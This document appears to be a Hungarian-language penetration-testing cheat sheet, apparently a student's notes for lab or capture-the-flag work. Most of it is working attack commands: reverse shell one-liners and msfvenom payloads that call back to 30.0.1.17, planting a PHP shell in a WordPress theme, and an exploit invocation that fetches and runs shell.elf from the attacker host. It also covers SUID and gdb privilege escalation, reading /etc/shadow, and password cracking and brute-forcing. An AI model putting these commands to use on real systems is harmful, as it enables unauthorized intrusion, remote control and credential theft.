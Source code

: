 
1. [Port scan](##wpscan)

## Advanced_ping
``` sh
sudo nmap -sn <IP>
```
## Port-scan
``` sh
sudo nmap -sS -sV <IP>
```

## Dirbuster wordlist
``` sh
/usr/share/wordlists/dirb/common.txt
```

## Password list 
``` sh
/usr/share/wordlists/rockyou.txt
```

## Listener
``` sh
nc -lvnp 4444
```
``` sh
nc -lvnp 5555
```

## PHP reverse shell generator
``` sh
msfvenom -p php/reverse_php LHOST=30.0.1.17 LPORT=4444 -f raw > rshell.php
```
Ezt fel kell tölteni csinálni egy listeneret és lefuttatni a Target gépen, ezáltal kapunk egy PHP reverse shellt

## SHELL Chaining PHP esetén (nem PHP-nál is működik)
``` python
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("30.0.1.17",5555));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```
``` python
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("30.0.1.17",5555));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```

## Shell upgrade
``` python
python3 -c "import pty; pty.spawn('/bin/bash')"
```

# wpscan
wpscan --help
* --url URL    --> url megadása
* -o FILE      --> fájlba mentés
* -f FORMAT    --> mentés formátuma
* --detection-mode MODE --> passive, aggressive, mixed
* --user-agent AGENT --> agent megadása
* --random-user-agent
* --http-auth login:password --> Basic auth login
* -e --> mire vagyunk kíváncsiak
  * -e vp --> sérülékeny plugin
  * -e u --> minden user meghatározása
* -P --> jelszavak brute-forceolása
* --login-uri URI  --> ha az oldal nem az eredti IP-n található hanem máshol pl.: http://40.0.4.16/secret
* --stealthy --> elrejtőzés

## Web server megtalálása
Appearance --> Theme editor
Érdemes a comments.php-t buherálni
1. Shell kód generálása (msfvenom)
2. comments.php-be beírni
3. Listener attack gépen (nc)
4. Egy komment megnyitása

Vagy ami könnyebb v

## WordPress feltörés shell generálás
msfconsole
```
search wp admin shell
```
Ha megvan a szám akkor
```
use {szám}
```
vagy
```
use exploit/unix/webapp/wp_admin_shell_upload
```

## Meterpreter php script
```
msfvenom -p php/meterpreter/reverse_tcp LHOST=30.0.1.17 LPORT=4444 -f raw > rshell.php
```
msfconsoleban
```
use exploit/multi/handler
```
Ez csak handler!!!

## betörés exploti python
3 külön terminal majd egyiken egy Listener majd egy másikban egy reverse shell(1) és egy python webserver ott ahol a exploit db s script van(python)(2) ezután feltöltjük(3). (1 2 3 egy mappában történjen)
```
msfvenom -p linux/x64/shell_reverse_tcp LPORT=4444 LHOST=30.0.1.17 -f elf > shell.elf
```
```
python3 -m http.server
```
```
python3 50457.py  40.0.5.16 80 /phpmyadmin pma pmapass "cd /tmp; rm -rf /tmp/shell.elf; wget http://30.0.1.17:8000/shell.elf;chmod 777 /tmp/shell.elf;/tmp/shell.elf"
```

# Linux PE (Privilige Excalaltion)
1. SUID bitek("meghatalmazás"): Ha egy futtatható fájlra ezt engedélyezzük, akkor a fájl nem az én jogaimmal indul majd el
   ### SUID bitek megkeresése
   ```
   find / -perm -u=s 2>/dev/null
   ```
   ### Használható fájlok
   - /usr/sbin/pppd
   - /usr/lib/dbus-1.0/dbus-daemon-launch-helper
   - /usr/lib/openssh/ssh-keysign
   - /usr/lib/xorg/Xorg.wrap
   - /usr/libexec/polkit-agent-helper-1
   - /usr/bin/sudo
   - /usr/bin/su
   - /usr/bin/fusermount3
   - /usr/bin/pkexec
   - /usr/bin/gpasswd
   - /usr/bin/chfn
   - /usr/bin/mount
   - /usr/bin/chsh
   - /usr/bin/umount
   - /usr/bin/newgrp
   - /usr/bin/ntfs-3g
   - /usr/bin/passwd

    Ha van gdb
    ```
    gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
    ```
2. Sudo jogok: sudo -l
   - /etc/passwd  --> cat vagy ls -l  vagy /etc/shadow(jelszavak vannak itt)
     - Ha a jognál + jel van akkor
     ```
     getfacl /etc/passwd
     ```
     - catelés után jelszavak keresése $ on ként vannak részek első típus második is majd utána só és az utolsó a jelszó, ha megvan egy fájlba elmentjük majd `john`
       y: cript típus
     - jelszó feltörése: john (the ripper) vagy hashcat
       ```
       john <jelszofajl> --wordlist=/usr/share/wordlists/rockyou.txt (--format=crypt --> ha y típus)

       ```
 3. Python library hyjacking
 4. 

 ## Jelszó generálás
 ```
openssl passwd -5 alma
```
## Burpsuite
Firefox addon FoxyProxy
Proxy tab --> Intercept ON
Request küldése majd jobb klikk
Send to Repeater (jelszavak próbálgatása, manualisan)
Send to Intruder 
 Hozzáadjuk az add al, majd payload tab, megadjuk a jelszavakat és start attack, ezután nézzük a hosszakat

 ## Basic Authos
 hydra
